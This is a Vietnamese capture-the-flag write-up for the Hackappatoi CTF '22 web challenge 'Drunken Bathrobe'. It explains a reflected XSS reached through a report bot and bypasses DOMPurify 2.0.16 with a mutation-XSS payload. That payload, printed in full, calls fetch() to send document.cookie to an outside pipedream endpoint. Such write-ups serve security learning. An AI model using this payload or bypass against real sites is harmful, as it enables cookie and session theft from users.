 # **Hackappatoi CTF '22**
## **Drunken Bathrobe** 
___
### **Description:**

Welcome to the Drunken Bathrobe! Make yourself comfortable and order your favourite cocktail :)

Author: @voidPtr
```
http://hctf.hackappatoi.com:8002
```
___
### **Solution:**

Web có "/search" để ta kiểm tra số lượng của sản phẩm

![1.png]()

Và tại đây ta có Reflected XSS

![2.png]()

"/report" sẽ nhận query, và 1 con bot sẽ chạy để kiểm tra query đó tại /search

![3.png]()

![4.png]()

![5.png]()

Nhưng trước khi bot chạy để kiểm tra thì quey đã được lọc qua Dompurify và function secureQuery

![6.png]()

Check verion của Dompurify tại Dockerfile: 2.0.16

![7.png]()

Một bài explain vô cùng chi tiết [tại đây](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/).

### **Exploit:**

Chạy trên local thì mình thấy rằng payload cần phải được URL Encode 2 lần thì mới có tác dụng

![8.png]()

Vậy payload: 
```
<form><mamathth><mtext><form><mglyph><style></mamathth><img src=x onerror=fetch('https://eobdy9he407yt6p.m.pipedream.net/'+document.cookie)></style></mglyph></form></mtext></mamathth></form>
```

Final payload:

![9.png]()

Flag:

![10.png]()